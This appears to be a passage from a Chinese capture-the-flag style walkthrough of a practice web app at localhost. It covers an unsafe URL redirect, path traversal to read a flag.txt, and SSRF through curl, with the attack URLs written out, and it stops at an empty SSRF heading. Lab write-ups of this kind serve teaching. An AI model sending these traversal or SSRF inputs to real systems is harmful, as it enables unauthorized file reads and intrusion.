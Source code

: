 

## URL重定向

### 不安全的URL跳转

还是一样，没有对前端传进来的值进行判断

```
http://127.0.0.1/vul/urlredirect/urlredirect.php?url=http://www.baidu.com
```

就能够进行重定向了



当然如果你确知某个目录下面有`flag.txt`也是可以通过这种方式去查看系统内的文件。

```
http://127.0.0.1/vul/urlredirect/urlredirect.php?url=../../../flag.txt
```



## SSRF

### SSRF(curl)

```
http://127.0.0.1/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/vul/ssrf/ssrf_info/info1.php
```

![image-20250121074851764](../../_media/image-20250121074851764.png)

所以是可以直接访问远程服务器上的木马

这个漏洞还可以读取服务器上的任意文件



### SSRF(file_get_content)
